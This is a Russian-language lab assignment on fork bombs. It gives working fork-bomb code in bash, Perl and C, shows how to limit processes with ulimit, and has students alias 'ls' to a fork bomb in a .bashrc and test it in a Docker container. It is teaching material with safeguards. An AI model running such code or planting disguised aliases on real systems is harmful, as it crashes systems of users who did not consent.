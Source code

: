 # Fork Bomb #

fork-бомба — вредоносная или ошибочно написанная программа, бесконечно создающая свои копии (системным вызовом fork()), которые обычно также начинают создавать свои копии и т. д.

Выполнение такой программы может вызывать большую нагрузку вычислительной системы или даже зависание системы вследствие нехватки системных ресурсов (дескрипторов процессов, памяти, процессорного времени), что и является целью.

fork-бомбу очень трудно ликвидировать, т.к. один процесс не зависит от другого и помогает только лишь перезагрузка компьютера. Но иногда она попадает и в автозагрузку (если это указано в коде) и тогда для ее ликвидации необходимо загружаться в режиме защиты от сбоев (например, безопасном режиме в Windows). Но некоторые fork-бомбы можно уничтожить и без перезагрузки.

### Примеры создания  Fork Bomb ###

Итак, код выглядит так:

	:(){ :|:& };:

Где:
   *	:() — Определение функции.
   *	{  — Открытие функции.
   *    : — загрузка копии функции «:» в память
   *    |: — перенаправление вывода в следующую копию функции
   *	& — Помещает вызов функции в фоновом режиме, чтобы fork (дочерний процесс) не мог «умереть» вообще, тем самым это начнет есть системные ресурсы.
   *	} — Закрытие функции.
   *	; — Завершите определение функции. Т.е является разделителем команд, (командный сепаратор).
   *	: — Запускает функцию которая порождает fork bomb().
	 
Это рабочий код, но не очень читабельный. Вот пример нормального, читаемого кода:
	 
	 #!/bin/bash
	 bomb() {
	 bomb | bomb &
	 };
	 bomb

Существуют Fork-бомбы и на языках программирования, приведу некоторые из них :

### Пример создания  Fork Bomb с использованием perl ###

	# perl -e "fork while fork" &

### Пример создания  Fork Bomb с использованием C/C++ ###

	#include <unistd.h>
	int main(void)
	{
		while(1)
		fork();
	}

И все-таки fork-бомбы на каких они языках программирования не написаны действуют по одному принципу.

## Ограничение процессов, создаваемых пользователем ##

Избегайте использования fork в любом, выражении, которое может оказаться в бесконечном цикле. 
Для уничтожения такой бомбы применяется ограничение колличества одновременно работающих процессов и тогда один из процессов fork-бомбы будет завершаться и на месте его будет создаваться другой процесс при достижении максимального колличества.
Утилита ```ulimit``` используется для временного установления пределов текущей оболочки и ее сыновей (таким образом в двух разных терминалах можно).
Можно ограничить процесс разветвления, как показано ниже:

	ulimit -u count_of_process

Установим предел процессов **N** * 2, где **N** - номер по журналу. 
Проверим результат:

	ulimit -a

Необходимо отметить, что ограничение количества процессов само по себе не предотвращает запуск fork-бомбы, а лишь направлено на минимизацию возможного вреда в случае её срабатывания.

Запустим fork-бобму:
	
	:(){ :|:& };:

Обратите внимание на всплывающие ошибки.
Закроем терминал и откроем новый.

Проверим ограничения нового терминала:

	ulimit -a
	
**!!!ВНИМАНИЕ!!!** На всякий случай сделайте SnapShot (снимок состояния) гостевой ОС или корректно завершите работу со всеми файлами

Запустим fork-бобму:

	:(){ :|:& };:

Перезапускаем гостевую ОС с помощью панели инструментов.

## alias и .bashrc ##
alias - своего рода сокращатель.
Утилита создана для того, чтобы делать сложные вещи простыми (или простые — ещё проще). Вместо того, чтобы использовать длинную и/или сложную команду можно создать простой псевдоним для неё и затем использовать его в своё удовольствие. Общий формат определения псевдонима при помощи alias таков:

	alias псевдоним="команда"
	
Файл .bashrc – это сценарий, который запускается всякий раз, когда начинается новый сеанс терминала в интерактивном режиме.
Сам файл .bashrc содержит ряд конфигураций для сеанса терминала. Сюда входит настройка или включение: раскраска, завершение, история оболочки, псевдонимы команд и многое другое. Файл .bashrc распространяемый вместе с Ubuntu, хорошо комментируется, и вы сможете понять, что он делает, просто прочитав его. 

В рамках ПЗ мы ограничимся малым, подменим всем хорошо знакомую утилиту ```ls``` на fork-бомбу.
Создадим папку *fork* и скопируем в нее *.bashrc*:

	mkdir fork
	cd fork
	cp ~/.bashrc .bashrc
	
В сценарии подмените ```ls``` на fork-бомбу

В опробуем нашу бомбу в docker-контейнере:

Dockerfile:

	FROM ubuntu
	COPY .bashrc /root/.bashrc
	CMD ["pwd"]
	
Создадим docker-образ:
	
	sudo docker build -t fork .
	
Запустим контейнер в интерактивном режиме:
	
	sudo docker run -ti -fork /bin/bash

Проверим нашу бомбу.

Ограничим число доступных ресурсов ЦП нашего контейнера флагом ```--cpus=".5"```, запустим наш контейнер снова.
